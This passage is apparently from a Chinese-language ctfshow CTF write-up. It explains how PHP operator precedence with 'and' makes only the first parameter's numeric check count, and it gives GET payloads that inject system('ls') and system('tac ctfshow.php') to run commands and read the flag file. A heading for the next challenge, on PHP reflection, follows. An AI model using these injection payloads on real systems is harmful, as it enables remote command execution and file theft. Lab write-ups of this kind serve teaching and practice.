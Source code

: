 ![100](img/100.png)

源码分析：

$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);涉及比较符优先级（&& > || > = > and > or）=优先级最高所以要v0=1则v1为数字

第一个判断里v2不能有分号（；）

第二个判断里v3必须有分号（；）

payload：?v1=1&v2=system("ls")&v3=;

​					?v1=1&v2=system("tac ctfshow.php")&v3=;

## WEB101 反射api

![101](img/101.png)
